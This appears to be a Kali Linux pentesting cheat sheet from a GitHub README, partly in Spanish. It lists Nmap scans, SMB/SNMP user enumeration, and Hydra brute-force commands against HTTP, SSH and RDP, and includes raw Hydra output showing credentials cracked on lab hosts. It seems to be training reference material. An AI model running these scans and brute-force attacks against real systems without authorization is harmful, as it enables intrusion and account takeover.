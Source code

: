 #Kali-Help-Sheet

# TTY Shells
## Python TTY Shell Trick


# 🕵️ Recon and Enumeration

## 🌐 NMAP Commands

Nmap (“Network Mapper”) is a free and open-source utility for network discovery and security auditing. It's a versatile tool used by both systems and network administrators for tasks like network inventory, managing service upgrade schedules, and monitoring host or service uptime. Nmap runs on all major computer operating systems, and official binary packages are available for Linux, Windows, and Mac OS X.

### Commands

| Command | Description |
|---------|-------------|
| `nmap -v -sS -A -T4 target` | Nmap verbose scan, runs syn stealth, T4 timing, OS and service version info, traceroute and scripts against services. |
| `ping sweep sudo nmap -pn target` | Does a ping sweep over the target's network to see all the available IPs. |
| `nmap -v -sS -p–A -T4 target` | As above but scans all TCP ports (takes a lot longer). |
| `nmap -v -sU -sS -p- -A -T4 target` | As above but scans all TCP ports and UDP scan (takes even longer). |
| `nmap -v -p 445 –script=smb-check-vulns --script-args=unsafe=1 192.168.1.X` | Nmap script to scan for vulnerable SMB servers. |
| `nmap localhost` | Displays all the ports that are currently in use. |
| `ls /usr/share/nmap/scripts/* | grep ftp` | Search nmap scripts for keywords. |

# 👤 Username Enumeration

## SMB User Enumeration

| Command | Description |
|---------|-------------|
| `python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.16X.XXX.XXX` | Enumerate users from SMB |
| `ridenum.py 192.16X.XXX.XXX 500 50000 dict.txt` | RID cycle SMB / enumerate users from SMB |
| `enum4linux -U 192.16X.XXX.XXX` | Enumerate SMB usernames using enum4linux |
## SNMP User Enumeration

| Command | Description |
|---------|-------------|
| `snmpwalk public -v1 192.168.X.XXX 1 | grep 77.1.2.25` | Enumerate users from SNMP |
| `python /usr/share/doc/python-impacket-doc/examples/samrdump.py SNMP 192.168.X.XXX` | Enumerate users from SNMP |
| `nmap -sT -p 161 192.168.X.XXX/254 -oG snmp_results.txt` | Search for SNMP servers with nmap, grepable output |

# 🔒 Passwords

## Wordlists

| Command | Description |
|---------|-------------|
| `/usr/share/wordlists` | Kali word lists |
| `wget https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt` | Download a popular wordlist from GitHub |

# 🐍 Hydra

## Bruteforce de contraseña con usuario que sabemos

`hydra -l <username> -P /usr/share/wordlists/rockyou.txt http://<IP_Address>`

## Bruteforce de usuario y contraseña
`hydra -L /usr/share/wordlists/users.txt -P /usr/share/wordlists/rockyou.txt http://<IP_Address>`

## Bruteforce de SSH

| Command | Description |
|---------|-------------|
| `hydra -L username.list -P password.list ssh://10.129.202.136` | Bruteforce de SSH |
| Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). | |
| Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-08 09:41:16 | |
| `[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4` | |
| `[DATA] max 16 tasks per 1 server, overall 16 tasks, 21112 login tries (l:104/p:203), ~1320 tries per task` | |
| `[DATA] attacking ssh://10.129.202.136:22/` | |
| `[STATUS] 156.00 tries/min, 156 tries in 00:01h, 20958 to do in 02:15h, 14 active` | |
| `[22][ssh] host: 10.129.202.136   login: dennis   password: rockstar` | |

## Bruteforce de RDP

| Command | Description |
|---------|-------------|
| `hydra -L username.list -P password.list rdp://10.129.202.136` | Bruteforce de RDP |
| Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). | |
| Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-08 09:51:50 | |
| `[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover` | |
| `[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)` | |
| `[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.` | |
| `[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore` | |
| `[DATA] max 4 tasks per 1 server, overall 4 tasks, 21112 login tries (l:104/p:203), ~5278 tries per task` | |
| `[DATA] attacking rdp://10.129.202.136:3389/` | |
| `[3389][rdp] account on 10.129.202.136 might be valid but account not active for remote desktop: login: john password: november, continuing attacking the account.` | |


